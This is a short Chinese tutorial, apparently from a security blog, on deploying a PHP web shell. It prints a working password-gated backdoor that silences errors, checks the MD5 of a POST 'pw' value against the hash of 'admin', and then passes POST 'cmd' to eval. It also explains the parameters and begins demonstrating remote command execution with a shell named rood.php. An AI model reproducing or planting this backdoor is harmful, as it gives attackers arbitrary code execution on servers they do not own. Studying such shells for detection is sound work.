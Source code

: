 放马 <br>

```php
<?php error_reporting(0);
	// 关闭错误报告
if (md5($_POST['pw'])==='21232f297a57a5a743894a0e4a801fc3')
	// pw的明文密码为admin
	{eval($_POST[cmd]);
	} 
?>
```

这种马设置了两个参数 <br>

首先判断pw的值是否为admin <br>

正确的话就传cmd参数进去 <br>

当两个参数都正确时才能生效 <br>

这种马不仅可以当一句话使用，还可以执行命令。。<br>

----

溜一只名字为rood.php的马 <br>

![images](/images/2018-06-01/hm22.png)

---

首先演示命令执行，读取phpinfo，走你！<br>

**PS：这里需要POST提交**
